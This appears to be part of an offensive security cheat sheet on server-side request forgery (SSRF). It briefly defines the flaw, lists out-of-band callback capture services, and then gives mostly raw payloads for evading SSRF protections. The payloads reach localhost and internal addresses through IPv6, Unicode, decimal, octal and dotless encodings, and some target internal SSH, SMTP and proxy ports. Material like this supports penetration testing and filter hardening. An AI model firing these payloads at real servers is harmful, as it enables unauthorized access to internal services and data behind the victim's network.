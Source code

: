 # SSRF (Server Side Request Forgery)
Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.


# Capture SSRF
* Burpcollab
* http://pingb.in
* https://canarytokens.org/generate
* https://github.com/projectdiscovery/interactsh
* https://github.com/teknogeek/ssrf-sheriff
* https://webhook.site/#!/f97e9831-53bd-45c5-8d05-232dd08b9ed6
* http://requestrepo.com
* https://app.interactsh.com
* https://github.com/stolenusername/cowitness

# Bypass SSRF Protection

* **Encode-IP**
  
    The Burp extension Burp-Encode-IP implements IP formatting bypasses


* **Localhost**
```html
# Localhost
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://127.1:80
http://127.000000000000000.1
http://0
http:@0/ --> http://localhost/
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪

# CDIR bypass
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1

# Octal Bypass
http://0177.0000.0000.0001
http://00000177.00000000.00000000.00000001
http://017700000001

```